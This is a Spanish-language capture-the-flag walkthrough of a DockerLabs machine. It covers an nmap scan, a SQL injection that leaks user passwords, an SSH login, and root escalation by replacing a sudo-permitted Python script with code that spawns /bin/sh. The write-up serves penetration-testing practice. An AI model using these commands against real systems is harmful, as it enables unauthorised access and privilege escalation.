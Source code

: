 # Fase 1- Tanteo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/e370d70d-c544-4739-b152-da4183707011)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.

### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **22/tcp (SSH ):** OpenSSH 9.2p1
2. **80/tcp (HTTP ):** Apache httpd 2.4.59

### Puerto 80
En el puerto 80 de la maquina victima, esta corriendo una pagina de buscar usuarios con su nombre, y nos entrega su contraseña.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/6d48e698-be73-42ce-8e8d-d2737ed3e388)

# Fase 3- Explotación

#### or
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/5871eec2-627d-496a-9764-b70227da64e8)

Si hacemos una simple inyección sql, nos entrega 3 usuarios y sus respectivas contraseñas.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/d30b528b-e3fe-4af9-8d81-2d17dd835c4e)

Nos conectamos por SSH, y proporcionamos la contraseña y estamos dentro!

# Fase 4- Privilegios

#### Python3
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/c3fba8bb-2e1b-4166-a912-70cad59054fa)

Despues del respectivo tratamiento de la TTY, al hacer el comando `sudo -l`, vemos que tenemos permisos de ejecución del binario python3, del archivo `system_info.py`.

#### System
Para escalar privilegios con python usamos el comando:
```python
sudo python -c 'import os; os.system("/bin/sh")'
```
Lo que hice fue el archivo original `system_info.py`, cambiarlo de nombre, y en mi maquina victima crear un archivo con el mismo nombre que incluyera el siguiente codigo:
```python
import os

import os; os.system("/bin/sh")
```
Y se lo pase a la maquina victima por el puerto 80, con wget y lo ejecute con el siguiente comando:
```python
sudo -u root /usr/bin/python3 /home/kvzlx/system_info.py

$whoami
root
```
